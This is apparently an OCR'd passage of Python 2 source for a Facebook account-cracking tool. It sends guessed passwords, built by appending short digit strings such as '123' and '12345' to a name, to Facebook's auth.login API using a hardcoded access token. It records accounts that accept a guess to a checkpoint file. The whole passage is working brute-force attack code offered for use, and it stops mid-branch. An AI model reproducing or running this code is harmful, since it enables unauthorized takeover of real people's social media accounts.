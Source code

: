 			
	def main(arg):
		global cpb,oks
		user = k+arg+ac
		try:
			pass1=kn+"123"
			data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			q = json.loads(data.text)
			if '407' in q['error_msg']:
				print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass1
				oks.append(user+pass1)
			else:
				if '405' in q["error_msg"]:
					print '[Checkpoint] ' + user + ' | ' + pass1
					cps = open("save/checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = kn+'12345'
					data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
					q = json.loads(data.text)
					if '407' in q['error_msg']:
						print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass2
						oks.append(user+pass2)
					else:
						if '405' in q["error_msg"]:
							print '[Checkpoint] ' + user + ' | ' + pass2
							cps = open("save/checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
							pass3 = kn + "1234"
							data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
							q = json.loads(data.text)
							if '407' in q['error_msg']:
								print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass3
								oks.append(user+pass3)
							else:
								if '405' in q["error_msg"]:
									print '[Checkpoint] ' + user + ' | ' + pass3
									cps = open("save/checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else:
									pass4 = kn+"12"
									data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
									q = json.loads(data.text)
									if '407' in q['error_msg']:
										print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass4
										oks.append(user+pass4)
									else:
										if '405' in q["error_msg"]:
											print '[Checkpoint] ' + user + ' | ' + pass4